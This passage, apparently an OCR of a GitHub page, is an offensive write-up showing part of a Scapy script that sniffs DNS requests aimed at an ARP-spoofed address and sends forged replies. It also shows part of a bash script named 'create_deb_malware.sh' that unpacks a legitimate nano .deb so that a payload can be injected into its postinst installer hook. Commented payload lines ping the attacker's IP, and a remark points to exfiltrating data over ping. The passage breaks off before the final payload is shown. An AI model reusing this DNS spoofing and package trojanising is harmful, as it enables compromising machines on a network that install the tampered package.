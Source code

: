     dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")

def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(mymacaddress)        # our macaddress since we spoofed the ip to our mac
    ] )

    # sniff the eth0 int without storing packets in memory and stopping after one dns request
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=10)

if __name__ == "__main__":
    main()
</code></pre>

<pre><code class="bash">cat create_deb_malware.sh</code></pre>

<pre><code class="bash">#!/bin/bash
# POC: tested locally with nano_4.8-1ubuntu1_amd64.deb and ping ip -c 1 - worked

myip=$(ip a show eth0 | grep -e "inet\s"| awk '{print $2}')
myip=${myip%/*}

cd debs

[ -d "work" ] && rm -rf work
[ -f "control.tar.xz" ] && rm -rf *.tar.xz
[ -d "pub" ] && rm -rf pub

dpkg -x nano_4.8-1ubuntu1_amd64.deb work
mkdir work/DEBIAN
ar -x nano_4.8-1ubuntu1_amd64.deb
tar -xf control.tar.xz ./control
tar -xf control.tar.xz ./postinst
mv control work/DEBIAN/
mv postinst work/DEBIAN/

# Worked
# payload='ping '$myip' -c 1'
# payload='ping '$myip' -p 123456 -c 1'
# So because of this https://curesec.com/blog/article/blog/Exfiltrate-Data-using-the-old-ping-utility-trick-23.html would have also been possible
